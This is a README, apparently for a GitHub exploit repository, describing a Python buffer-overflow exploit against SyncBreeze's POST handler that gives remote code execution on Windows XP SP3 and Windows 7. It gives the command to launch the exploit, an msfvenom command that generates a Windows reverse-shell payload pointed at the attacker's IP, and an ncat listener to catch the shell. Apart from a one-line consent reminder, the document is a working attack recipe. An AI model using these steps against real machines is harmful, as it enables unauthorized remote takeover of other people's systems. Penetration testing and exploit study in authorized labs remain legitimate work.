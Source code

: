 # SyncBreeze Buffer OverFlow for Remote Code Execution
POST data buffer overflow
## How it works?
That easy BoF, rewritten by me, will overwrite the buffer and execute the shellcode
## Vuln machines:
WindowsXP SP3 and Windows7
## Launch:
````~$ python3 SyncBreeze.py <host> <port>````
## Change the ShellCode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Listen with netcat:
````~$ ncat -lvp 4444````
### Don't pwn any machine without consent!!
